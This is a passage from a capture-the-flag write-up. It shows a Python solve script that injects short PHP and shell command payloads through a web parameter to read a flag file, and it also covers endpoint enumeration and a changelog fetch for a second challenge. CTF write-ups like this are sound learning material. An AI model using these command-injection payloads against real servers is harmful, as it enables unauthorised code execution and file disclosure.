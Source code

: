 ```
    print(secret)

    url += secret
    print(url)

    params = {
        "tryharder": cmd
    }
    req = requests.get(url, params=params)
    print(req.content)

    req = requests.get(url)
    print(req.content)


if __name__ == "__main__":
    main("http://35.242.253.155:30574", "${`ln -s /var`}")
    main("http://35.242.253.155:30574", "${`mv var o`}")
    main("http://35.242.253.155:30574", "${`ln -s o/w*`}")
    main("http://35.242.253.155:30574", "${`mv www l`}")
    main("http://35.242.253.155:30574", "${`ln -s l/h*`}")
    main("http://35.242.253.155:30574", "${`mv html j`}")
    main("http://35.242.253.155:30574", "${`cat j/f*>2`}")
    main("http://35.242.253.155:30574", "${print`cat 2`}")
```

We can inject php using the `tryharder` parameter, but it has to be less than 16 characters. In addition, the data we can change is part of a doc string (heredoc). We use ${} to run php and backticks to run shell commands.
Running the solution script gives us the flag:
`ctf{d067ddd00ba4129e83898758ac321533f392364cfaca7967d66791d9d08823bb}`


### pirate-crawler
There is nothing on the main page.

First we found `/console` endpoint by dirbusting. However, the debugger console was protected with a PIN.

In the task description they mentioned APIs. So we tried to find `/api`, `/v1` and `/v2` etc.
We then found some interesting endpoints.

* `/v1` - mentions that `/v1` is disabled and that we should see the changelog for more information.
* `/v2` - mentions that this is the `V2 API ROUTE`

We then tried to find the CHANGELOG file:
```shell
$ http GET 'http://138.68.93.187:6960/v2/CHANGELOG'
HTTP/1.0 200 OK
Content-Length: 204
Content-Type: text/html; charset=utf-8
Date: Mon, 07 Dec 2020 16:47:24 GMT
Server: Werkzeug/1.0.1 Python/3.6.9

  #1: V1 context - V1 api routes disabled after sambacry
  #2: V2 context - crawl route parammeter changed to 'adshua' to prevent abuse
  #3: V2 context - added new safe SMbHandler to prevent sambacry
```
